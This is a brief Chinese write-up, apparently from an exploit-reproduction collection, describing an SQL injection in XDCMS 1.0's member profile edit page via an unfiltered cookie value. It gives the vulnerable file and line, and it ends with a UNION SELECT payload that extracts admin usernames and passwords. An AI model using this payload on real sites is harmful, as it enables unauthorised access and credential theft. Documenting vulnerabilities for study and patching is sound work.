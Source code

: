 XDCMS 1.0 sql注入漏洞（二）
===========================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞存在于用户资料修改页面，URL：`index.php?m=member&f=edit`

![](./resource/XDCMS1.0sql注入漏洞(二)/media/rId24.jpg)

漏洞文件位于`system/modules/member/index.php`，`line:178`

![](./resource/XDCMS1.0sql注入漏洞(二)/media/rId25.jpg)

\$userid直接从Cookie中取出，并无任何过滤，导致注入

![](./resource/XDCMS1.0sql注入漏洞(二)/media/rId26.jpg)

    select * from table_member where 'userid'=-4 Union seLect 1,2,username,4,5,6,7,8,9,10,11,12,password,14,15 fRom c_admin
